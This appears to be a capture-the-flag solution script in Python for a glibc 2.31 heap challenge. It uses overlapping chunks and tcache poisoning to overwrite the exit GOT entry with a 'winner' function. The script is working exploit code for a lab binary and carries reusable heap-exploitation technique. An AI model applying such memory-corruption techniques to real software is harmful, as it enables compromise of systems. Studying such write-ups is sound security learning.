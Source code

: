 ```python
# tried House Of Einherjar, I can't seems to do it
# used overlapping chunk technique instead
# glibc 2.31
io = initialize()

alloc(0, 0x40)
alloc(1, 0x10)
alloc(2, 0x40)

# overwriting 1's size, creating overlapping chunk upon next request
write(0, b'\x00' * 0x48 + p64(0x51))
delete(0)
delete(2)
delete(1)

# tcache poisoning on 2's fd 
# this will request 1's chunk which supposed to be 0x10 in size,
# however since we corrupt its size, the bin is going to act like its 0x40 in size
# which create an overlapping chunk with 2
alloc(1, 0x40)
write(1, b'\x00' * 0x18 + p64(0x51) + p64(elf.got['exit']))

# requesting 2's chunk, which has GOT in its fd for next allocation
alloc(2, 0x40)

# now this should be located on the GOT table
alloc(0, 0x40)
write(0, p64(elf.sym['winner']))

# calling exit (win)
io.sendlineafter(b'choice', b'5')

io.interactive()
```
{% endcode %}
